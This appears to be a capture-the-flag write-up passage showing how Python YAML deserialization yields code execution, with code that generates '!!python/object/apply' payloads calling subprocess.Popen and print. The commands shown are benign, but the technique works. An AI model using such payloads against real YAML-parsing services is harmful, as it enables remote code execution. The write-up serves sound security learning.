 
## Ideas and Approach
From the above obserations we can tell that we need to perform xss which can eventually lead to code execution. Since both parts are not immediately obvious, and the main theme of this challenge is `yaml`, let's first take a look at what `yaml` can do.

![image](/images/upload_256393cf6b9a38fec278d4cd2fa121b4.png)

From a quick google search, we find that there is a trick known as **Python Yaml Deserialization**. Some quick reading of the [HackTricks page on this technique](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) shows that with an interesting deserialized payload, we can execute python code, or more specifically the `sleep()` function in python.

![image](/images/upload_de4dcae1d665127a6b7ad060523501fe.png)

Looking back at our `server.js`, we find that the part where yaml is loaded is eerily similar, particularly with the second payload in the image above.

Back to the challenge page, if we put the same payload in there, we can see that there is no output, meaning that the code has successfully executed without any errors.

![image](/images/upload_a083bde1ea1ced8d7bb67427f5381c42.png)

Obviously, a sleep function alone won't do much, so how do we get it to run other things? 

Reading more of the [HackTricks page](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization), if we scroll down a bit to the [RCE section](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization#rce), we find the code below, which generates the deserialized version of `subprocess.Popen('ls')`.

```python=
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import subprocess

class Payload(object):
    def __reduce__(self):
        return (subprocess.Popen,('ls',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(deserialized_data)

# !!python/object/apply:subprocess.Popen
# - ls

...
```

By modifying it a bit, we make it so that it outputs the deserialized version of `print('木木')`, to ensure that we can indeeed execute python code.

```py=
import yaml

class Payload(object):
    def __reduce__(self):
        return (print, ('木木'))

deserialized_data = yaml.dump(Payload())

print(deserialized_data)

# Output from program (deserialized_data):
# !!python/object/apply:builtins.print
# - "\u6728"
# - "\u6728"
```